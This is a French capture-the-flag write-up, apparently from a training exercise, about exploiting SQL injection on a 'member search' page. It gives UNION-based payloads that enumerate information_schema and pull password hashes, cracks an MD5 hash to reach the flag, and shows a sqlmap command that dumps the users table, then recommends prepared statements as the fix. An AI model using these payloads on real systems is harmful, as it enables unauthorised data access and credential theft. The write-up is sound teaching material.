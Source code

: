 # Explications

Sur la page member search, il y a une SQL Injection.

On peut afficher tous les users de la table en recherchant : "1 or 1=1"

On peut imaginer une requete forger comme ca derriere :

```sql
SELECT id, firstname, surname FROM users WHERE id = $_GET['id']
```

en passant une UNION on peut donc lui faire afficher ce qu'on veut.
sur la base de donnée MySQL une database (information_schema) contient des informations cruciales, on peut lui faire afficher les autres db / tables / columns.

```
1 or 1=1 UNION select table_name, column_name FROM information_schema.columns
```

On peut voir une table qui s'appelle "users" avec comme column : "user_id, first_name, last_name, town, country, planet, Commentaire, countersign"

Je vous epargne toutes les requetes essayé mais la plus interessante fut : "1 or 1=1 UNION SELECT Commentaire, countersign FROM users"

on obtient une consigne qui nous invite a :

```
Decrypt this password -> then lower all the char. Sh256 on it and it's good !
5ff9d0165b4f92b14994e5c685cdce28
```

5ff9d0165b4f92b14994e5c685cdce28 (md5->plain text) FortyTwo

fortytwo (ascii->sha256) 10a16d834f9b1e4068b25c4c46fe0284e99e44dceaf08098fc83925ba6310ff5

----

# Cas d'usage

Obtenir un dump de la DB, tous pleins d'infos bien utiles :)

----

# Comment l'eviter ?

Il faut a tout pris passer par des requetes SQL dites prepared, les ORM font tres bien le boulot.
(cf: PDO::prepare)

----

# Good to Know

sqlmap un petit tool en python qui a fait ses preuves depuis, peu permettre de rechercher des SQLi, un petit exemple:

sqlmap -u "http://192.168.2.128/?page=member&id=1&Submit=Submit#" --dump -T users

```
Database: Member_Sql_Injection
Table: users
[4 entries]
+---------+-----------+--------+-----------+-----------+----------------+-------------------------------------------------------------------------------+----------------------------------+
| user_id | town      | planet | country   | last_name | first_name     | Commentaire                                                                   | countersign                      |
+---------+-----------+--------+-----------+-----------+----------------+-------------------------------------------------------------------------------+----------------------------------+
| 1       | Honolulu  | EARTH  | America   | Obama     | Barack Hussein | Amerca !                                                                      | 2b3366bcfd44f540e630d4dc2b9b06d9 |
| 2       | Berlin    | Earth  | Allemagne | Hitler    | Adolf          | Ich spreche kein Deutsch.                                                     | 60e9032c586fb422e2c16dee6286cf10 |
| 3       | Moscou    | Earth  | Russia    | Staline   | Joseph         | ????? ????????????? ?????????                                                 | e083b24a01c483437bcf4a9eea7c1b4d |
| 5       | 42        | 42     | 42        | GetThe    | Flag           | Decrypt this password -> then lower all the char. Sh256 on it and it's good ! | 5ff9d0165b4f92b14994e5c685cdce28 |
+---------+-----------+--------+-----------+-----------+----------------+-------------------------------------------------------------------------------+----------------------------------+
```

Plutot puissant non ?

